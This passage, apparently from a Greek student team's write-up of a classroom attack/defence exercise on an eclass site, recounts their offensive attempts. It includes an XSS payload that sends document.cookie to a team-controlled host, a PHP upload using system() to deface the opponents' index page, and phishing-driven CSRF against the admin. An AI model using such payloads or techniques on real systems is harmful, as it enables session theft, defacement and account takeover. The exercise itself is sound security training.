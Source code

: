 ```<script>window.location='http://edimoi-diariktes.puppies.chatzi.org/?totally_not_suspicious='.concat(document.cookie);</script>```

Εν συνεχεία προσπαθήσαμε να δούμε αν μπορούμε να εκμεταλλευτούμε με κάποιον τρόπο την ανταλλαγή αρχείων και την υποβολή εργασίας. Παρόλο που μπορούσαμε να βρούμε την ακριβή τοποθεσία των αρχείων *(αφού δεν άλλαζαν τα ονόματα των αρχείων, άλλα είχαμε και πρόσβαση στην βάση με χρήση του πρώτου μας injection)* και μπορούσαμε να ανεβάσουμε μέχρι και .php αρχεία. Μια τέτοια είδους επίθεση είχε αδρανοποιηθεί στο site τον αντιπάλων μας, αφού η διαδικασία λήψης των αρχείων είχε αλλάξει, και απλά στελνόντουσαν στον browser όπου και κατεβαίναν στον υπολογιστή μας, χωρίς να εκτελούνται ποτέ στον server. Αλλά και κανένας *(εκτός από την ίδια την php)* δεν είχε πρόσβαση στο αρχείο όπως αυτό είναι αποθηκευμένο στον server.

Σαν τελευταία προσπάθεια χρησιμοποιήσαμε μια λειτουργιά στην ενότητα “ενεργοποίηση εργαλείων” ενός μαθήματος, το “Ανέβασμα ιστοσελίδας” *(Στην οποία και είχαμε πρόσβαση όταν αποκτήσαμε τον κωδικό του drunk admin)*. Η λειτουργιά αυτή ουσιαστικά επιτρέπει σε έναν εκπαιδευτή να ανεβάσει την δικιά του σελίδα στον server, με αποτέλεσμα αυτή να εκτελείτε στον server. Αυτό αποτελούσε μια πολύ σημαντική ευπάθεια καθώς συνδυαστικά με την χρήση της συνάρτησης system() της php, έχουμε την δυνατότητα να τρέξουμε οποιαδήποτε εντολή θέλουμε στον server, αρκεί ο χρήστης του apache να έχει δικαίωμα να την εκτελέσει. **Αν** για παράδειγμα ο χρήστης αυτός είχε δικαιώματα root, θα μπορούσαμε μέχρι και να φτιάξουμε έναν δικό μας χρήστη στον server και να κάνουμε ssh. Αλλά αφού ο χρήστης για τον apache δεν έχει τέτοια δικαιώματα δοκιμάσαμε κάτι πιο “προσγειωμένο”. Ανεβάσαμε ένα δικό μας index.php στον server, και με χρήση της system() αντικαταστήσαμε το κανονικό index.php της εφαρμογής *(το αρχικό index.php το κρατήσαμε σε ένα αρχείο oldindex.php)*, **κάνοντας ουσιαστικά defacement την ιστοσελίδα των αντιπάλων** *(το οποίο έχουμε και claim)*.

*Συνολικά, οι αντίπαλοι φαίνεται να είχαν κλείσει σχεδόν όλα τα πιθανά σημεία για RFI, μιας και η λειτουργιά “Ανέβασμα ιστοσελίδας” ήταν από την πλευρά του καθηγητή, και σε καθόλου εμφανές σημείο.*


### CSRF

Στείλαμε emails στον drunkadmin με ενα πειστικό back-story ώστε να τον οδηγήσουμε στην σελίδα μας και να τον κάνουμε να πατήσει τα αντίστοιχα κουμπιά,
τα οποία έκαναν submit κρυμμένες φόρμες από μέρους του, με σκοπό να αλλάξουμε πχ τον κωδικό του ή να δημιουργήσουμε κάποιον άλλο admin. Οι επιθέσεις αυτές 
δεν λειτούργησαν καθώς απ ότι φαίνεται οι αντίπαλοι μας είχαν προστατεύσει τις φόρμες τους με τα απαραίτητα anticsrf tokens.
Μπορείτε να δείτε τον κώδικα/φόρμες που χρησιμοποιήσαμε για τις csrf επιθέσεις στην puppies σελίδα μας σε αυτό το repository. Τα csrf αυτά λειτουργούσαν κανονικά
στην αρχική-ευάλωτη έκδοση του eclass από την οποία ξεκινήσαμε, οπότε συμπεράναμε οτι για να μην λειτούργησαν ενώ ο drunkadmin πατησε το submit 
πρέπει να τα προστάτεψαν οι αντίπαλοι.


### Puppies

Θέλοντας να αποκτήσουμε access σαν drunk admin στο site των αντιπάλων στήσαμε μια δικιά μας σελίδα στην θέση των puppies *(μπορείτε να δείτε τον κώδικα αυτής στο repository)*. Πιο συγκεκριμένα η ιστοσελίδα puppies εξυπηρετεί τους έξεις σκοπούς. Πρώτον, έχει κουμπιά στα οποία όταν πατήσει ο χρήστης, κάνει ένα csrf attack με σκοπό να γίνει submit μια φόρμα από τον drunkadmin *(πχ αλλαγή κωδικού)*. Ακόμα έχει έναν URL listener από τον οποίο αναμένει να παραλάβει να πάρει το cookie κάποιου χρήστη. Επίσης για δικιά μας διευκόλυνση, κάναμε την σελίδα να μας στέλνει ένα email όταν κάποιος μπαίνει σε αυτή, μαζί με όποιο payload μπορεί να κατάφερε να αποσπάσει από τον χρήστη καθώς και τον browser που χρησιμοποίησε ο χρηστης, καθώς παρατηρήσαμε ότι αναφορικά με τα csrf attack ο mozzila firefox είχε διαφορετική, πιο ευνοϊκή για εμάς διαχείριση του samesite tag coockie όταν αυτό δεν έχει οριστεί, σε αντίθεση με τους chromium based browsers. Με χρήση της σελίδας αυτής λοιπόν και αποστολής email στον drunkadmin, προσπαθήσαμε να κάνουμε δυο csrf attacks, ένα για να αλλάξουμε τον κωδικό του drunkadmin, και να φτιάξουμε έναν δικό μας καθηγητή *(φόρμες http://localhost:8001/modules/admin/password.php?userid=1 και http://localhost:8001/modules/admin/newuseradmin.php αντίστοιχα)*. *Για κακη μας όμως τύχη, ως αποτέλεσμα της καλής δουλειάς της αμυνόμενης ομάδας, και τα δυο αυτά attacks απέτυχαν*.

